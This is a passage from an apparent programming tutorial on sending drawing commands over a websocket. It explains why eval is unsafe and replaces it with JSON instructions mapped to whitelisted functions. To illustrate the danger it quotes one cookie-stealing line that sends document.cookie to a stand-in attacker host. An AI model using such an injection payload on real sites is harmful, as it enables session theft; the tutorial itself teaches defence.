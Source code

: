 Now the user could send `"drawLine({x: 0, y: 0}, {x: 1, y: 1}, 'red')"` and
bam: we’ll draw a line!

But…your spidey sense may already be tingling. What if the user was malicious
and managed to send us an instruction like this:

[code]

    "window.location='http://iwillp3wn.com?user_info=' + document.cookie"
[/code]

Uh oh…our cookie would get sent to iwillp3wn.com, and the malicious user would
indeed pwn us. We can’t use eval; it’s too dangerous.

There lies our problem: we can’t use `eval`, but we need some way to receive
arbitrary instructions.

## An initial idea

Well, we could represent those instructions as JSON. We can map each JSON
instruction to a special function, and that way we can control what runs.
Here’s one way we can represent it:

[code]

    {
      instructions: [
        { functionName: "drawLine", args: [{ x: 0, y: 0 }, { x: 1, y: 1 }, "blue"] },
      ];
    }
[/code]

This JSON would translate to `drawLine({x: 0, y: 0}, {x: 1, y: 1},"blue")`

We could support this pretty simply. Here’s how our `onMessage` could look:

[code]

    webSocket.onMessage(instruction => { 
      const fns = {
        drawLine: drawLine,
        ...
      };
      data.instructions.forEach((ins) => fns[ins.functionName](...ins.args));
    })
[/code]

That seems like it would work!

## An initial simplification

Let’s see if we can clean this up. Here’s our JSON:

[code]

    {
      instructions: [
        { functionName: "drawLine", args: [{ x: 0, y: 0 }, { x: 1, y: 1 }, "blue"] },
      ];
    }
[/code]
